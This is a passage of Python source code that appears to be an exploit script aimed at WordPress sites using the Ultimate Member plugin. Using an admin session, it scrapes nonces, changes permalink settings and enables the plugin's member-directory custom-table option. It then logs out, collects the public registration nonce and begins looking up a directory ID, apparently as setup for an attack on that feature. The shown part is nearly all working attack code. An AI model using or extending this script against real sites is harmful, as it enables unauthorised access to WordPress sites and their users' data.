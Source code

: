 ```python
    wp_nonce = re.search(r'name="_wpnonce" value="([^"]+)"', permalink_response.text).group(1)

    wp_data = {
        "_wpnonce": wp_nonce,
        "_wp_http_referer": "/wp-admin/options-permalink.php",
        "selection": "/%postname%/",
        "permalink_structure": "/%postname%/",
        "submit": "변경사항 저장",
    }

    post_permalink_response = session.post(f"{TARGET}/wp-admin/options-permalink.php", data=wp_data, proxies=proxies)
    if post_permalink_response.status_code == 200:
        print("[bold green][+] Permalink updated successfully.")
    else:
        print("[bold red][-] Failed to update permalink settings.")
        sys.exit(0)

    # Update Ultimate Member settings
    misc_response = session.get(f"{TARGET}/wp-admin/admin.php?page=um_options&tab=misc", proxies=proxies)
    um_nonce = re.search(r'name="__umnonce" value="([^"]+)"', misc_response.text).group(1)

    um_data = {
        "um-settings-action": "save",
        "um_options[form_asterisk]": "0",
        "um_options[enable_blocks]": "0",
        "um_options[member_directory_own_table]": "1",
        "submit": "변경 사항 저장",
        "__umnonce": um_nonce,
    }

    post_misc_response = session.post(f"{TARGET}/wp-admin/admin.php?page=um_options&tab=misc", data=um_data, proxies=proxies)
    if post_misc_response.status_code == 200:
        print("[bold green][+] Settings updated successfully.")
    else:
        print("[bold red][-] Failed to update settings.")
        sys.exit(0)

def logout(session):
    """Log out from the WordPress site."""
    response = session.get(f"{TARGET}/logout", proxies=proxies)
    if response.status_code == 200:
        print("[bold green][+] Successfully logged out.")
    else:
        print("[bold red][-] Failed to log out.")
        sys.exit(0)

def get_nonce():
    """Extract nonce value for further requests."""
    response = requests.get(f"{TARGET}/register", proxies=proxies)
    match = re.search(r'um_scripts\s*=\s*\{[^}]*"nonce":"([^"]+)"', response.text)

    if match:
        nonce = match.group(1)
        print(f"[bold green][+] Nonce value found: {nonce}.")
        return nonce
    else:
        print("[bold red][-] Failed to find nonce value.")
        sys.exit(0)

def get_directory_id(nonce):
```